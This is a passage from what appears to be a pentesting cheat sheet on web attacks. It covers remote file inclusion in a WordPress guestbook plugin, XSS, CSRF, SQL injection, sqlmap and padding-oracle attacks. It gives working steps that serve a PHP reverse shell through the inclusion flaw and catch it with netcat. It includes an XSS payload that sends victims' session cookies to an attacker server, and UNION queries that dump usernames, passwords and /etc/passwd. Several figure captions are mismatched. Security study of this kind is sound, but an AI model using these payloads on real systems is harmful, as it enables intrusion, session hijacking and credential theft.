\ExtensionTok{HTTP}\NormalTok{ GET parameter }\StringTok{"abspath"}\NormalTok{ is not being properly sanitized before being used in PHP require() }\KeywordTok{function}\BuiltInTok{.} \ExtensionTok{A}\NormalTok{ remote attacker can include a file named }\StringTok{'wp-load.php'}\NormalTok{ from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious }\StringTok{'wp-load.php'}\NormalTok{ file into his server document root and includes server}\StringTok{'s URL into request:}
\StringTok{http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]}
\end{Highlighting}
\end{Shaded}

In this case you can see that because of the fact that this plugin is not properly sanitized, the require method is looking for a wp-load.php file that can come from
another computer.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  download php reverse shell example

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{wget}\NormalTok{ http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz}
\FunctionTok{tar}\NormalTok{ -xf php-reverse-shell-1.0.tar.gz}
\FunctionTok{mv}\NormalTok{ php-reverse-shell-1.0/php-reverse-shell.php wp-load.php}
\FunctionTok{sed}\NormalTok{ -i }\StringTok{'s/127.0.0.1/<attacker_ip>/'}\NormalTok{ wp-load.php}
\FunctionTok{sed}\NormalTok{ -i }\StringTok{'s/1234/443/'}\NormalTok{ wp-load.php}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  listen to port 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  send the \textbf{RFI}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://127.0.0.1/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<attacker_ip/"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\textbf{That's it}

\hypertarget{html-injection}{%
\section*{HTML Injection}\label{html-injection}}
\addcontentsline{toc}{section}{HTML Injection}

\textbf{HTML Injection} is a vulnerability that allows people to insert, most probably via a input text, a html tag. This vulnerability can
be verified in a forum or a notes application for example by inserting \texttt{\textless{}h1\textgreater{}test\textless{}/h1\textgreater{}} or a \texttt{\textless{}marquee\textgreater{}this\ note\ will\ move\textless{}/marquee\textgreater{}} and if the
result is interpreted, that means that the application is vulnerable to HTML Injection and most probably to \textbf{XSS Injection}

\hypertarget{xss-cross-site-scripting}{%
\section*{XSS (Cross site scripting)}\label{xss-cross-site-scripting}}
\addcontentsline{toc}{section}{XSS (Cross site scripting)}

\textbf{XSS Injection} comes from the family of \textbf{HTML Injection} and use the \texttt{\textless{}script\ /\textgreater{}} tag for using javascript and inject commands via a programming
language. This technic is commonly used for change session cookies content.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<script>}\AttributeTok{alert}\NormalTok{(}\VariableTok{document}\NormalTok{.}\AttributeTok{cookie}\NormalTok{)}\KeywordTok{</script>}
\end{Highlighting}
\end{Shaded}

\hypertarget{xss-blind}{%
\section*{XSS Blind}\label{xss-blind}}
\addcontentsline{toc}{section}{XSS Blind}

\textbf{XSS Blind} is the common way to sleal the session cookie of a user by sending the information to a third part server.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Attacker create a small web server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 8080}
\end{Highlighting}
\end{Shaded}
\item
  Attacker put the malicious XSS script on the web app

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<script>}\VariableTok{document}\NormalTok{.}\AttributeTok{write}\NormalTok{(}\StringTok{'<img src="http://<attacker_ip>:8080/img.jpg?cookie='} \OperatorTok{+} \VariableTok{document}\NormalTok{.}\AttributeTok{cookie} \OperatorTok{+} \StringTok{'">'}\NormalTok{)}\KeywordTok{</script>}
\end{Highlighting}
\end{Shaded}
\item
  Read the cookie on the small web server

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#Output}
\ExtensionTok{10.10.12.24}\NormalTok{ -- [date] }\StringTok{"GET /img.jpg?cookie=PHPSESSID=2qjc9psdroeqb0qcppnqdmhgp8 HTTP/1.1"}\NormalTok{ 404 -}
\end{Highlighting}
\end{Shaded}
\item
  Attacker can now update the cookie with the EditThisCookie chrome extension.
\end{enumerate}

\hypertarget{csrf-cross-site-request-forgery}{%
\section*{CSRF (Cross-site Request Forgery)}\label{csrf-cross-site-request-forgery}}
\addcontentsline{toc}{section}{CSRF (Cross-site Request Forgery)}

\textbf{CSRF} is a vulnerability that allows attacker to send a request for example a form that normaly is send by the method \textbf{POST} throw
another method like \textbf{GET}. It's commonly used in order to change a password. The attacker is now able to send a link that will change
automatically the password of a victim.

Imagine that there is a function in a web app that allows user to change their password. The Request in BurpSuite will probably look like that.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/csrf-post} \caption{csrf post request}\label{fig:unnamed-chunk-5}
\end{figure}

To check if this web app is vulnerable to \textbf{CSRF}, with BurpSuite right click and selecting \emph{change request method} and you will se that the
request has now changed to a \textbf{GET} method and looks like the following

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/csrf-get} \caption{csrf updated to GET}\label{fig:unnamed-chunk-6}
\end{figure}

If this change allows still user to change his password that means that this app is vulnerable to \textbf{CSRF} and attacker can send this link to
the victim in order to change his password with the attacker desired password.

\begin{quote}
{[} ! {]} NOTE: In order to send another url text than the normal one, use a URL SHORTENER like bitly or others.
\citet{S4vitaar} Estoy siguiendo tus cursos por el momento youtube de web pentest y tenia una pregunta, se puede hacer un cross site request forgery con un cross site scripting javascript?
\end{quote}

\hypertarget{ssrf-server-side-request-forgery}{%
\section*{SSRF (Server-Side Request Forgery)}\label{ssrf-server-side-request-forgery}}
\addcontentsline{toc}{section}{SSRF (Server-Side Request Forgery)}

A big difference bitween \textbf{CSRF} and \textbf{SSRF} is that with \textbf{Server-Side Request Forgery}, attacker doesn't need to interact with the victim to exploit the
vulnerability. Attacker can use this vulnerability to send commands at server level.

\hypertarget{sql-injection---error-based}{%
\section*{SQL Injection - Error Based}\label{sql-injection---error-based}}
\addcontentsline{toc}{section}{SQL Injection - Error Based}

An \textbf{Error based SQL Injection} is a type of sql injection that profit to a syntax error attack type. Attacker can then profit those errors to list priviledge
informations.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select username,password from users where id = 1 }\StringTok{';}
\StringTok{#Output}
\StringTok{ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that correspond to you MySqlDB server version for the right syntax to use near '''' at line 1 }
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTE: The error here comes from the ' at the end of the line.
\end{quote}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/sql-error-based} \caption{sql error based on screen}\label{fig:unnamed-chunk-7}
\end{figure}

How can Attacker take profit of this vulnerability:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  List total number of column of the table

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users order by 100}\KeywordTok{;}
\CommentTok{#Output}
\ExtensionTok{ERROR}\NormalTok{ 1054 (42S22)}\BuiltInTok{:}\NormalTok{ Unknown column }\StringTok{'100'}\NormalTok{ in }\StringTok{'order clause'}

\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users order by 4}\KeywordTok{;}
\CommentTok{#Output}
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \FunctionTok{id} \KeywordTok{|} \ExtensionTok{username} \KeywordTok{|} \ExtensionTok{password} \KeywordTok{|} \ExtensionTok{email}   \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \ExtensionTok{2}  \KeywordTok{|} \ExtensionTok{zeto}     \KeywordTok{|} \ExtensionTok{test1234} \KeywordTok{|} \ExtensionTok{a@a.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{3}  \KeywordTok{|} \ExtensionTok{rob2}     \KeywordTok{|} \ExtensionTok{test3434} \KeywordTok{|} \ExtensionTok{b@b.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \ExtensionTok{arif2}    \KeywordTok{|} \ExtensionTok{test2331} \KeywordTok{|} \ExtensionTok{c@c.com} \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/sql-error-based-url-by-100} \caption{sql error based order by 100}\label{fig:unnamed-chunk-8}
   \end{figure}
\item
  Get column names

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select 1,2,3,4}\KeywordTok{;}
\CommentTok{#Output}
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \FunctionTok{id} \KeywordTok{|} \ExtensionTok{username} \KeywordTok{|} \ExtensionTok{password} \KeywordTok{|} \ExtensionTok{email}   \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \ExtensionTok{2}  \KeywordTok{|} \ExtensionTok{zeto}     \KeywordTok{|} \ExtensionTok{test1234} \KeywordTok{|} \ExtensionTok{a@a.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{3}  \KeywordTok{|} \ExtensionTok{rob2}     \KeywordTok{|} \ExtensionTok{test3434} \KeywordTok{|} \ExtensionTok{b@b.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \ExtensionTok{arif2}    \KeywordTok{|} \ExtensionTok{test2331} \KeywordTok{|} \ExtensionTok{c@c.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \ExtensionTok{2}        \KeywordTok{|} \ExtensionTok{3}        \KeywordTok{|} \ExtensionTok{4}       \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\CommentTok{# Also possible with strings and functions}

\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select 1,}\StringTok{"test"}\NormalTok{,3,database();}
\CommentTok{#Output}
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \FunctionTok{id} \KeywordTok{|} \ExtensionTok{username} \KeywordTok{|} \ExtensionTok{password} \KeywordTok{|} \ExtensionTok{email}   \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \ExtensionTok{2}  \KeywordTok{|} \ExtensionTok{zeto}     \KeywordTok{|} \ExtensionTok{test1234} \KeywordTok{|} \ExtensionTok{a@a.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{3}  \KeywordTok{|} \ExtensionTok{rob2}     \KeywordTok{|} \ExtensionTok{test3434} \KeywordTok{|} \ExtensionTok{b@b.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \ExtensionTok{arif2}    \KeywordTok{|} \ExtensionTok{test2331} \KeywordTok{|} \ExtensionTok{c@c.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \BuiltInTok{test}     \KeywordTok{|} \ExtensionTok{3}        \KeywordTok{|} \ExtensionTok{database}\KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}    
\end{Highlighting}
\end{Shaded}

  Usefull functions to be used in order to retrieve relevant informations:

  \begin{itemize}
  \tightlist
  \item
    database()
  \item
    user()
  \item
    load\_file(`/etc/passwd')
  \end{itemize}
\item
  Get all the table names from database

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select table_name,2,3,4 from information_schema.tables where table_schema = }\StringTok{"database"}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\item
  Get all databases

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata}\KeywordTok{;}
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata limit 1,1}\KeywordTok{;} \CommentTok{#show the first database}
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select schema_name,2,3,4 from information_schema.schemata limit 2,1}\KeywordTok{;} \CommentTok{#show the second database}
\end{Highlighting}
\end{Shaded}
\item
  Get Columns name of a table

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select column_name,2,3,4 from information_schema.columns where table_schema = }\StringTok{"database"}\NormalTok{ and table_name = }\StringTok{"users"}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\item
  Display User and Passwords

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select concat(username,0x3a,password),}\ExtensionTok{2}\NormalTok{,3,4 from database.users}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}

  or with group concat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select group_concat(username,0x3a,password),}\ExtensionTok{2}\NormalTok{,3,4 from database.users}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{quote}
{[} ! {]} NOTE: In a web app you might need to finish the sql injection by \textbf{-- -}
\end{quote}

\begin{quote}
{[} ! {]} NOTE: sometimes quotes or double quotes can not be used in web services url, but you can bypass that by using hexadecimal
value \texttt{echo\ "database"\ \textbar{}\ xxd\ -ps} -\textgreater{} 64617461626173650a so table\_schema = ``database'' is the same as table\_schema = 0x6461746162617365
\end{quote}

\hypertarget{sql-injection---time-based}{%
\section*{SQL Injection - Time Based}\label{sql-injection---time-based}}
\addcontentsline{toc}{section}{SQL Injection - Time Based}

\textbf{SQL Injection time based} is a technic that attacker can use when the database is not visiblie (Blind) in the web application. The purpose is the same as the
sql injection error based but needs a sleep(5) function to guess the searched values.

\hypertarget{sql-injection---boolean-based}{%
\section*{SQL Injection - Boolean Based}\label{sql-injection---boolean-based}}
\addcontentsline{toc}{section}{SQL Injection - Boolean Based}

\textbf{SQL Injection boolean based} is a kind of \textbf{error based} technic. The difference here is that the attacker is not looking at the information because
it is not revealed by the web app. The only thing that the attacker know is if it's sql command get an error or not. As the time \textbf{time based} technic,
the attacker use that to guess the searched value.
In this case, \textbf{SQLMap} is usefull.

\hypertarget{sqlmap}{%
\section*{SQLMap}\label{sqlmap}}
\addcontentsline{toc}{section}{SQLMap}

\textbf{SQLMap} is an automatic tool that perform sql injections.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2}
\CommentTok{# SQLMap identify the param id as injectable}
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2 --tables}
\CommentTok{# SQLMap get the tables and db information}
\ExtensionTok{sqlmap}\NormalTok{ -u http://10.124.211.96/details.php?id=2 -D db -T users --dump}
\CommentTok{# SQLMap dump the users table}

\end{Highlighting}
\end{Shaded}

\hypertarget{padding-oracle-attack-padbuster}{%
\section*{Padding Oracle Attack (Padbuster)}\label{padding-oracle-attack-padbuster}}
\addcontentsline{toc}{section}{Padding Oracle Attack (Padbuster)}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Recover cookie session and name
\item
  Decode cookie with padbuster

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{padbuster}\NormalTok{ http://}\OperatorTok{<}\NormalTok{website_url}\OperatorTok{>}\NormalTok{/login.php p4YaK6FAadDiK24eOGcORpxvxiAchu%2Fy 8 -cookie }\StringTok{"auth=p4YaK6FAadDiK24eOGcORpxvxiAchu%2Fy"}\NormalTok{ -encoding 0}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{quote}
{[} ! {]} NOTE: If you see that the webapp is vulnerable to padding oracle attack, that the user \emph{admin} is valid and you see that the webapp have
a Registration page you can, you can put as a username \emph{admin=} and you will be logged as admin manualy.
\end{quote}

\hypertarget{padding-oracle-attack-bit-flipper-attack---burpsuite}{%
\section*{Padding Oracle Attack (Bit Flipper Attack - BurpSuite)}\label{padding-oracle-attack-bit-flipper-attack---burpsuite}}
\addcontentsline{toc}{section}{Padding Oracle Attack (Bit Flipper Attack - BurpSuite)}

The \textbf{Bit Flipper attack} is an attack that takes the cookie of a user created with a very similar name as the victim name and flip Bits in order to retrieve the
desired session cookie

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  create a user name very similar as the victim (in this case bdmin for admin)

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/bit-flip-registration} \caption{sql error based order by 100}\label{fig:unnamed-chunk-9}
   \end{figure}
\item
  check the session cookie of user bdmin with BurpSuite

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/bit-flip-checkcookie} \caption{sql error based order by 100}\label{fig:unnamed-chunk-10}
   \end{figure}
\item
  Ctrl+i to emit that to the BurpSuite intruder and go to intruder Positions to do a Sniper Attack

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/bit-flip-sniperattack} \caption{sql error based order by 100}\label{fig:unnamed-chunk-11}
   \end{figure}
\item
  Go to Payloads and select Bit flipper in payload type, Literal value in Format original data, select all the bits and uncheck Url encode these characters

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/bit-flip-payloadoption} \caption{sql error based order by 100}\label{fig:unnamed-chunk-12}
   \end{figure}
\item
  Go to option and add a Grep Extract

  \begin{itemize}
  \item
    Add Grep Extract

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/bit-flip-addgrepextract} \caption{sql error based order by 100}\label{fig:unnamed-chunk-13}
      \end{figure}
  \item
    Fetch Response

    \begin{figure}
